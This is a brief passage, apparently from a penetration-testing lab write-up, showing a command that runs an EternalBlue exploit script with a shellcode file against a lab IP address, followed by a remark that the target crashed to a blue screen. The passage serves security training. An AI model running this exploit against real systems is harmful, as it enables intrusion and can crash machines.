 <img src="/assets/images/tcm-academy/blue-22.png">


## Time to run the exploit:

```bash
python eternalblue_exploit7.py 192.168.17.135 shellcode/sc_all.bin
```


In this case, the exploit crashed the target machine, resulting in the Blue screen: